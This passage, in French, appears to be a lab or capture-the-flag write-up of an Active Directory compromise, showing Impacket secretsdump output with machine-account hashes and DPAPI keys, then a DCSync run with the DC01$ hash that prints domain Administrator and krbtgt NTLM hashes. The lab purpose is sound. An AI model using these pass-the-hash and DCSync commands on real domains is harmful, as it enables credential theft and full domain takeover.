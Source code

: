 ```console
$MACHINE.ACC:plain_password_hex:71d80a683e1e4d5513469830414e8bf1e63c0134474edefcce03db146283975ffd10c495fd4f2aaf87c6e9c505adf0e5fde5dc23c218cd33d9ed8bed3bc5d287235571e236600027e8f3e2a255ce159864838ae43f647b0d6e5d67ed266112514944c05c3f1068ef7d6dde7a86819db1fba630254da5a9ad3fec5cd96427d87c11e067f7419a36ff7c5ad57d6265113c7df0a2348decd8e89ca41f21d552d35e1840fef4bbb24b7a4503c15c1164ca892985a4f737ea0949f242757c2a3d648275b9e65baf0e2965a408ce8a56b62f9b1fdce79ee603ea53c84af0f9b17a8c33015ebabd64ba7339c3e4067c4504ce7c
$MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:f32f9cf8e3d5655e6561f958c5d37d4e
[*] DPAPI_SYSTEM 
dpapi_machinekey:0x829d1c0e3b8fdffdc9c86535eac96158d8841cf4
dpapi_userkey:0x4813ee82e68a3bf9fec7813e867b42628ccd9503
[*] NL$KM 
 0000   44 C5 ED CE F5 0E BF 0C  15 63 8B 8D 2F A3 06 8F   D........c../...
 0010   62 4D CA D9 55 20 44 41  75 55 3E 85 82 06 21 14   bM..U DAuU>...!.
 0020   8E FA A1 77 0A 9C 0D A4  9A 96 44 7C FC 89 63 91   ...w......D|..c.
 0030   69 02 53 95 1F ED 0E 77  B5 24 17 BE 6E 80 A9 91   i.S....w.$..n...
NL$KM:44c5edcef50ebf0c15638b8d2fa3068f624dcad95520444175553e85820621148efaa1770a9c0da49a96447cfc896391690253951fed0e77b52417be6e80a991
[*] Cleaning up...
```

J'ai cassé le hash du compte administrateur et... le mot de passe était `admin`. Ça n'avait aucun sens.

Je me suis alors rappellé que les hashs ici sont ceux locaux, pas ceux du domaine. OSEF.

Pour avancer, on va utiliser une technique connue sous le nom "Backup Operators to domain admin" qui est décrite dans différents articles :

[Active Directory Privilege Escalation - Practical CTF](https://book.jorianwoltjer.com/windows/active-directory-privilege-escalation#backup-operators-to-domain-admin)

[Vulnlab: Lustrous par UnChleuHacker](https://unchleuhacker.com/2025/06/02/Vulnab%20-%20Lustrous/)

[HTB: Mist writeup by ARZ101](https://arz101.medium.com/hackthebox-mist-c23cdea69ca5)

Cela consiste à se servir du compte machine DC01 obtenu précédemment avec `secretsdump` et profiter de son droit à faire un DCSync :

```console
$ secretsdump.py -hashes :f32f9cf8e3d5655e6561f958c5d37d4e 'SOUPEDECODE.LOCAL/dc01$'@192.168.56.126 | tee /tmp/hashes.txt
Impacket v0.13.0.dev0+20250611.105641.0612d078 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:8982babd4da89d33210779a6c5b078bd:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:fb9d84e61e78c26063aced3bf9398ef0:::
soupedecode.local\bmark0:1103:aad3b435b51404eeaad3b435b51404ee:d72c66e955a6dc0fe5e76d205a630b15:::
soupedecode.local\otara1:1104:aad3b435b51404eeaad3b435b51404ee:ee98f16e3d56881411fbd2a67a5494c6:::
--- snip ---
```
